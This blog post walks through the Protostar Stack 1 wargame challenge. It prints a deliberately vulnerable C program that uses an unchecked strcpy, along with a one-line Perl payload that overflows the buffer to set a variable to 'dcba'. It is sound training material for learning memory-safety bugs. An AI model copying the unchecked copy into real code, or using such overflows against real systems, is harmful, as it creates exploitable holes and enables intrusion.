 ```yaml
---
title: "Exploit Exercises - Protostar Stack 1"
date: "2011-12-13T06:12:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-stack-1.html"
---
```


[This](http://exploit-exercises.com/protostar/stack1) challenge is very similar to the previous one.  The main difference is that instead of just validating that the "modified" value was changed, it validates that it was changed to a specific value, 0x61626364, or "dcba" in ASCII.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }

 modified = 0;
 strcpy(buffer, argv[1]);

 if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
}
```

To complete this, we simply run:

```
user@protostar:/opt/protostar/bin$ ./stack1 `perl -e 'print "A"x64 . "dcba"'`
you have correctly got the variable to the right value
```

This will fill up the "buffer" with 64 "A"s, and overflow "dcba" into the "modified" variable.
